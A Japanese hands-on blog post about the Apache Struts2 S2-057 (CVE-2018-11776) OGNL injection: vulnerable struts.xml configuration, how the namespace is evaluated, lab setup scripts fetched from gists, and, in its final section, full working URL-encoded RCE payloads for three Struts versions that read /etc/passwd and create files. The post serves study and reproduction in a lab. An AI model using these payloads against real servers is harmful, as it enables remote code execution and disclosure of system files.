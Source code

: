 ```yaml
---
layout: post
title:  "S2-057 CVE-2018-11776"
date:   2018-08-24
permalink: /security/:title
categories: Security
tags: Struts2 S2-057 CVE-2018-11776
excerpt: Struts2のRCE脆弱性の解説とハンズオン
mathjax: false
---
```


* content
{:toc}

このポストは
S2-057を発見したLGTMのリサーチャーであるMan Yue Moと、
githubにPoCを公開したリサーチャーのjas502n、Ivan1ee、Fnzer0の情報にもとづいて書かれています。
詳細については文末を確認してください。

## 脆弱性の概要

### 脆弱な設定

struts.xmlに以下の脆弱な設定が記述されている場合、受け取ったHTTPリクエストに含まれるEL式やOGNL式を無害化できず、任意のコマンドを実行される可能性があります。
struts.xmlからincludeされている各xmlも同様に脆弱性の原因となります。

- actionタグもしくはurlタグを含むpackageタグにnamespaceの指定が無い

**脆弱性が有るxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

**脆弱性が無いxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default" namespace="/hoge">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

### 想定される攻撃ベクタ

- リクエストされるURLに`%{`もしくは`${`が含まれる

  **例1**
  http://localhost/app/${1+1}/index

  **例2**
  http://localhost/app/%{(1+1)}/index

  *URLエンコードされている可能性があります*

  http://localhost/app/%24%7B1%2B1%7D/index

  http://localhost/app/%25%7B1%2B1%7D/index

## 仕組み

### Struts2の基本

HTTPリクエストに応じて適切なActionクラスを呼び出すためにActionProxyクラスが使われます。
ActionProxyクラスの基本動作はstruts.xmlに記述されたactionタグによって定義され、受け取ったHTTPリクエストに応じて具体的な動作が決定されます。

以下の例ではhogeに対してSampleClassがマッピングされています。
この状態でhttp://localhost/app1/hoge.actionにアクセスするとSampleClassが呼び出された後にhttp://localhost/app1/index.jspが表示されます。
ActionProxyクラスがURL文字列を解析してSampleClassクラスを呼び出す事によりこの動作が実現されます。

```xml
<struts>
  <package name="test" extends="struts-default" namespace="/app1">
    <action name="hoge" class="SampleClass">
      <result type="dispatcher">
        <param name="actionName">/index.jsp</param>
      </result>
    </action>
  </package>
</struts>
```
解析された文字列からクラスを呼び出す際にOGNLが使われます。
OGNLは文字列をプログラムコードとして解釈実行できるため脆弱性の温床になる可能性があります。
安全に使うためにはプログラマが意図した文字列だけを受け取るような仕組みが必要です。

### 脆弱性

今回発見された脆弱性はnamespaceを判断する機能が悪用されたものです。
packageタグにnamespace属性が指定されていない場合はURLから読み取った/app1という文字列からnamespaceが判定されます。
この時OGNLが利用されるために以下のようなURLを使ったコードが実行可能になります。

`http://localhost/app1/${1+1}/hoge.action`

- サーバは localhost
- action は hoge.action
- namespace は /app1/${1+1} ←これがOGNLに渡される

## 環境構築

jas502n/St2-057はStruts2.2.3.1でないとRCEが成立しません。
今回問題となっているStruts2.3およびStruts2.5ではシンプルな数値計算しか行えずjavaのメソッド呼び出しには失敗するためです。
そういった意味ではjas502n/St2-057には改善の余地があります。
しかし~~2018.08.24時点で唯一のPoCであり~~数値計算が出来る以上はRCEの成立まであと一歩の可能性があるという事で動作確認をしていきます。

<span style="color:red">
*jas502n/St2-057以外にStruts2.3.34で再現可能なPOCが公開されています*
</span>

やるべきことは全てSt2-057/README.mdに書いてあります。
今回はそれらの手順を読み解く必要もなく暗黙の了解を知らなくても良いスクリプトを作りました。
VirtualBoxにCentOS7_minimalを新規インストールしてスクリプトを使ってください。
環境がプロキシ配下にある場合はプロキシ設定もしてください。

### プロキシ設定
必要に応じて設定してください。

```bash
export PROXY='proxy.sample.local:8080'
cat > /etc/profile.d/proxy.sh << END
PROXY=$PROXY
export http_proxy=$PROXY
export HTTP_PROXY=$PROXY
export https_proxy=$PROXY
export HTTPS_proxy=$PROXY
END
source /etc/profile

mkdir -p /etc/systemd/system/docker.service.d
cat > /etc/systemd/system/docker.service.d/proxy.conf << END
[Service]
Environment="HTTP_PROXY=http://$PROXY/" "HTTPS_PROXY=https://$PROXY/"
END
systemctl daemon-reload

```

### Struts2

Struts2.2.3.1とStruts2.3.34とStruts2.5.16を用意します。

```bash
curl -LO https://gist.githubusercontent.com/ox0xo/17673b22fc3fa3260be4eab8687be5e5/raw/e2e72558ce0bb29a61b9ed94a9f9b438b889d00e/s2-057.sh
chmod +x s2-057.sh
./s2-057.sh
```

### 一部ローカル環境向け

```bash
# 以下のファイル群を展開した任意のディレクトに入ってから作業を開始する
# vulhub.tar.gz
# docker-compose-Linux-x86_64
# st2231.war
# st2334.war
# st2516.war
# docker-compose.yml
# struts-actionchaining.xml

curl -LO https://gist.githubusercontent.com/ox0xo/2738af32e40b17e98863d230f73c34df/raw/cc06cbc7001aa8d0e301e3f03636dba60a58a3ca/s2-057-local.sh
chmod +x s2-057-local.sh
./s2-057-local.sh
```

## PoC

### Struts2.2.3.1
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27cat /etc/passwd%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27touch /tmp/this_server_was_hacked%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29%29%7D/actionChain1.action
```
### Struts2.3.34
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22touch /tmp/this_server_was_hacked%22%29%29%7D/actionChain1
```
### struts2.5.16
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27touch /tmp/this_server_was_hacked%27%29%29%7D/actionChain1
```
## 参考

[Man Yue Mo: CVE-2018-11776: How to find 5 RCEs in Apache Struts with Semmle QL](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

[jas502n: St2-057 在线靶机环境，Enjoy！](https://github.com/jas502n/St2-057/blob/master/README.md)

[Ivan1ee: Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）](https://github.com/Ivan1ee/struts2-057-exp/)

[Fnzer0: S2-057本地测试与复现](https://github.com/Fnzer0/S2-057-poc)
